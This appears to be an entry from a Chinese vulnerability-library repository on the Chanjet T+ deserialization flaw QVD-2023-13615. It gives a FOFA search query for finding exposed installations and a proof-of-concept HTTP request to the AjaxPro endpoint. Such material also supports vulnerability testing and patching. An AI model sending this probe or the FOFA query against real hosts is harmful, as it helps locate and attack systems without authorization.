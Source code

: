 ## 这里就是漏洞库了

### 用友畅捷通T
- fofa语法：`app="畅捷通-TPlus"`

#### 畅捷通T+ 反序列化漏洞（QVD-2023-13615）

该漏洞属于.net反序列化场景中的 JavaScriptSerializer反序列化；

简介：在.NET处理 Ajax应用的时候，通常序列化功能由JavaSerializer类提供，它是.NET2.0之后内部实现的序列化功能的类，位于命名空间System.Web..Serialization、通过System.Web.Extensions引用，让开发者轻松实现.Net中所有类型和Json数据之间的转换，但在某些场景下开发者使用Deserialize 或DeserializeObject方法处理不安全的Json数据时会造成反序列化攻击从而实现远程RCE漏洞。

- POC
    ```
    POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
    Host: your-ip
    X-Ajaxpro-Method: GetStoreWarehouseByStore
    
    {
    "storeID":{}
    }
    ```

- PS:`X-Ajaxpro-Method`：用于指定在Ajax请求中要调用的服务器端方法的名称

![Alt text](/images/QVD-2023-13615.png)

- [相关链接](https://blog.csdn.net/qq_41904294/article/details/131350965)